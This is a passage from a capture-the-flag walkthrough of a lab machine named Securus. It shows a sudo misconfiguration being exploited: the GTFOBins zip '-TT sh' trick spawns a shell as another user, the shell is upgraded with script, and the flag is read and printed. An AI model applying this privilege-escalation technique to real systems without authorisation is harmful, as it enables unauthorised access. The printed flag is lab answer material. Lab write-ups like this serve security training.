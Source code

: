 User wileec can sudo! What can he sudo? sudo -l
*(jsmith) NOPASSWD: /usr/bin/zip*

### Privesc #2 

Using the sudo-trick, we’re now mr or mrs Smith (and admit, who does not want to be a Mr. or Mrs. Smith once in their life?), as an extra reward, there is flag 2 here.

```
wileec@Securus:~$ TF=$(mktemp -u)   TF=$(mktemp -u)
TF=$(mktemp -u)
wileec@Securus:~$ sudo -u jsmith zipsudo -u jsmith zip $TF /etc/hosts -T -TT 'sh #'
sudo -u jsmith zip $TF /etc/hosts -T -TT 'sh #'
  adding: etc/hosts (deflated 32%)
$ sudo rm $TF
sudo rm $TF
rm: missing operand
Try 'rm --help' for more information.
$ SHELL=/bin/bash script -q /dev/null
SHELL=/bin/bash script -q /dev/null

jsmith@Securus:/home/wileec$ cd ..                        cd ..
cd ..
jsmith@Securus:/home$ ls                    ls
ls
jsmith  wileec
jsmith@Securus:/home$ cd jsmith             cd jsmith
cd jsmith
jsmith@Securus:~$ ls -la            ls -la
ls -la
total 24
drwxrwx--- 2 jsmith jsmith 4096 Apr 25  2020 .
drwxr-xr-x 4 root   root   4096 Apr 26  2020 ..
-rw-r--r-- 1 jsmith jsmith  220 Nov  5  2016 .bash_logout
-rw-r--r-- 1 jsmith jsmith 3515 Nov  5  2016 .bashrc
-rw-r--r-- 1 jsmith jsmith   33 Apr 25  2020 flag2.txt
-rw-r--r-- 1 jsmith jsmith  675 Nov  5  2016 .profile
jsmith@Securus:~$ cat flag2.txt     cat flag2.txt
cat flag2.txt
THM{Welcome_Home_Wile_E_Coyote!}



from gtfobins
$ TF=$(mktemp -u)
$ sudo -u jsmith zip $TF /etc/hosts -T -TT 'sh #'
$ sudo rm $TF
$ SHELL=/bin/bash script -q /dev/null




```
